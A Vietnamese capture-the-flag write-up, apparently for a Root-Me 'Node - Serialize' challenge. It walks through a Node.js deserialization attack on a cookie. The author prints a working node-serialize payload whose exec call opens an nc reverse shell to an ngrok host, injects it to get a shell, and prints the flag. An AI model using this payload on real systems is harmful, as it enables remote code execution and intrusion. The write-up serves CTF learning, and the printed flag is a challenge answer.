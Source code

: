 # Node - Serialize

- Link Challenge: http://challenge01.root-me.org:59067/

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/a5eeb11d-8eec-4439-ab55-307ac0cd3227)

- Vừa vào thì mình nhận được một trang login.
- Dùng Burp Suite kiểm tra resquest thì mình nhận thấy rằng server sẽ response về cho mình một Cookies có giá trị là ``profile`` và redirect mình về lại ``\``

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/a230517e-3f6f-4e1c-bf06-474d4fcfdda4)

- Tiếp tục xem resquest tiếp theo thì lúc này server đã tự gửi một GET resqeust với Cookies là giá trị đã set cho mình lúc nãy.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/17f08edd-18ae-4733-999b-2b65502298f7)

- Có vẻ như cookies đã bị serialize và theo tên bài thì trang web này được code bằng Node.

 ![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/b8e02089-55fb-4727-9737-0428dc56be83)

- Sau một hồi research mình tìm được một bài viết khá hay về [Node.js Deserialization Attack ](https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/)
- Dựa theo blog, bây giờ mình tiến hành dựng một port tcp bằng ngrok.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/2355dfa4-00a1-46cb-a12f-02e492186dac)

- Đoạn code generartor payload sẽ có dạng như sau:

```  nodejs
let y = {
    rce: function () {
        require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 12502 >/tmp/f', function (error, stdout, stderr) { console.log(stdout); });
    },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/5e173b84-8940-4cd3-b080-b68ab9bf0a07)

- Bây giờ mình sẽ tiến hành chèn thêm đoạn payload này vào cookies để có thể reverse shell

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/d675eb43-7110-4f38-85f2-8fbe2458cc8c)

- Sau khi có shell, mình chỉ cần lấy flag.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/938e0984-1651-457e-ba0c-566d64a454d8)

- Flag: ```Y3pS3r0d3c0mp4nY1sB4d!```
